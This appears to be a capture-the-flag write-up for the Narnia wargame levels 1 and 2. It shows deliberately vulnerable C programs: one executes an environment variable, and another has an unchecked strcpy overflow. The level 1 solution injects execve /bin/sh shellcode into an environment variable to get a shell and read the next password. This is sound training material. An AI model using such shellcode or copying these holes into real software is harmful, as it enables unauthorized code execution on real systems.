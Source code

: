 ## Level 01 ##

{% highlight c linenos %}
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}
{% endhighlight %}

So here we need to set an environment variable named `EGG` to something
we want executed. We can't just pass `/bin/bash` as it's going to call whatever
we give it as a function. Ideally we want a shell, so what we need in this case
is the shellcode to do just that.

{% highlight console %}
narnia1@melinda:/narnia$ export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
[password]
{% endhighlight %}

## Level 02 ##

{% highlight c linenos %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
	char buf[128];

	if(argc == 1){
		printf("Usage: %s argument\n", argv[0]);
		exit(1);
	}
	strcpy(buf,argv[1]);
	printf("%s", buf);

	return 0;
}
{% endhighlight %}
